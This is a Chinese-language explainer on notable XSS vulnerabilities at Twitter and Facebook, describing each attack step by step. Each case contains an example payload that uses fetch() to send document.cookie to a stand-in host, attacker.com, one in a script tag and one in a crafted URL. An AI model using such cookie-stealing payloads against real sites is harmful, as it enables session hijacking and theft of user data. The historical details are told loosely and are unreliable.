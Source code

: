 

## 著名XSS漏洞
XSS（跨站脚本攻击）是一种广泛存在的 Web 安全漏洞，许多大型网站和平台都曾遭受过 XSS 攻击。以下是一些著名的 XSS 漏洞案例及其影响：

### 1. Twitter XSS 漏洞

**描述**：
Twitter 曾多次遭受 XSS 攻击，其中最著名的一次发生在 2010 年。攻击者利用 Twitter 的一个 XSS 漏洞，通过在推文中注入恶意脚本，成功窃取了大量用户的信息。

**攻击过程**：

1. **发现漏洞**：
   - 攻击者发现 Twitter 的某个输入字段（如推文内容）未对用户输入进行适当的过滤和编码。

2. **注入恶意脚本**：
   - 攻击者在推文中注入恶意 JavaScript 代码。例如：
     ```html
     <script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
     ```

3. **传播恶意推文**：
   - 攻击者通过各种方式（如自动化的僵尸网络）传播包含恶意脚本的推文。

4. **执行恶意脚本**：
   - 当用户查看包含恶意脚本的推文时，浏览器会执行脚本，窃取用户的 Cookie 并发送到攻击者的服务器。

**影响**：
- 大量用户的信息被窃取，包括登录凭证、个人信息等。
- Twitter 紧急修复了该漏洞，并提醒用户更改密码。

### 2. Facebook XSS 漏洞

**描述**：
Facebook 也曾多次发现并修复 XSS 漏洞。其中一些漏洞允许攻击者劫持用户会话，执行未授权的操作。

**攻击过程**：

1. **发现漏洞**：
   - 攻击者发现 Facebook 的某个功能（如消息、帖子）未对用户输入进行充分的验证和编码。

2. **构造恶意链接**：
   - 攻击者构造一个包含恶意脚本的链接，并诱导用户点击。例如：
     ```
     https://www.facebook.com/profile.php?v=<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
     ```

3. **执行恶意脚本**：
   - 当用户点击链接并访问页面时，浏览器会执行恶意脚本，窃取用户的会话 Cookie。

4. **劫持用户会话**：
   - 攻击者使用窃取的 Cookie 劫持用户会话，执行未授权的操作，如发布状态、发送消息、修改个人信息等。

**影响**：
- 用户会话被劫持，可能导致隐私泄露和未授权的操作。
- Facebook 及时修复了漏洞，并采取措施防止类似攻击。
